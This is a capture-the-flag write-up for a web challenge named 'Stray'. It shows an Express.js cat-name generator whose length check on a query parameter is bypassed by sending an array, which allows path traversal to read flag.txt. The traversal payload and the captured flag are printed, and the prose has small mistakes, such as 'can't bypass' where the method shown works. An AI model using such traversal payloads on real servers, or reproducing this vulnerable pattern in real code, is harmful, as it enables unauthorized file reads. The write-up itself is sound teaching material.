




# Stray
> Stuck on what to name your stray cat?

## About the Challenge
We got a source code (You can download the file [here](export.zip)) and also the website. Here is the preview of the website



If we press one of the links, it will generate a cat name



## How to Solve?
Let's analyze `app.js`!

```js
import express from "express";
import path from "path";
import fs from "fs";

const app = express();

app.get("/cat", (req, res) => {
  let { category } = req.query;

  console.log(category);

  if (category.length == 1) {
    const filepath = path.resolve("./names/" + category);
    const lines = fs.readFileSync(filepath, "utf-8").split("\n");
    const name = lines[Math.floor(Math.random() * lines.length)];

    res.status(200);
    res.send({ name });
    return;
  }

  res.status(500);
  res.send({ error: "Unable to generate cat name" });
});

app.get("/", (_, res) => {
  res.status(200);
  res.sendFile(path.resolve("index.html"));
});

app.listen(process.env.PORT || 3000);
```

In `/cat` endpoint, this code is checking if the length of category is 1. If it is, it reads a file from a `m` directory, selects a random name from that file, and sends it as a response to the client with an HTTP status code of 200.

To read the flag, we need to input `../flag.txt` as the value for parameter category. However, we can't do that directly due to the code checking whether the length of our input is 1 or not.



But we can't bypass that by providing an array instead of a string.

From:
```
cat?category=../flag.txt
```

To:
```
cat?category[]=../flag.txt
```

And here is the final payload I used to obtain the flag



```
bctf{j4v45cr1p7_15_4_6r347_l4n6u463}
```